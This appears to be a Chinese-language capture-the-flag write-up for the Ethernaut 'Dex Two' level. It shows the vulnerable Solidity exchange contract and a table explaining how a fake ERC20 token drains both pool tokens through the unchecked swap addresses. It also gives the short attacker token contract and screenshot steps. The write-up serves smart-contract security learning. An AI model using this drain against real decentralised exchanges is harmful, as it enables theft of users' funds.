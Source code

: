 ## Level_23.Dex Two

要求：

> 获得所有的Token1和Token2；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

### 分析

该合约与` Dex `不同之处：

```solidity
// Dex
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
function swap(address from, address to, uint256 amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}

// Dex Two
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
function swap(address from, address to, uint256 amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

` Dex Two `没有检测Token的地址，那就很简单了，我们只需自己搞一个Token，给交易所1个，我们自己3个即可；

|     当前操作     | Dex的Token1 | Dex的Token2 | Dex的EXP | 用户的Token1 | 用户的Token2 | 用户的EXP |
| :--------------: | :---------: | :---------: | :------: | :----------: | :----------: | :-------: |
|                  |     100     |     100     |    1     |      10      |      10      |     3     |
| swap(EXP, T1, 1) |      0      |     100     |    2     |     110      |      10      |     2     |
| swap(EXP, T2, 2) |      0      |      0      |    4     |     110      |     110      |     0     |



### 攻击

自己实现一个ERC20Token：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Exp is ERC20{
    constructor(address addr) ERC20("ExpToken", "EXP"){
        _mint(msg.sender, 3);
        _mint(addr, 1);
    }
}
```

部署完成同样先给交易所approve：

![image-20250212002530830](./assets/image-20250212002530830.png)

给交易所approve我们自己的Token：

![image-20250212005455002](./assets/image-20250212005455002.png)

置换Token1:

![image-20250212005302335](./assets/image-20250212005302335.png)

置换Token2:

![image-20250212005404385](./assets/image-20250212005404385.png)

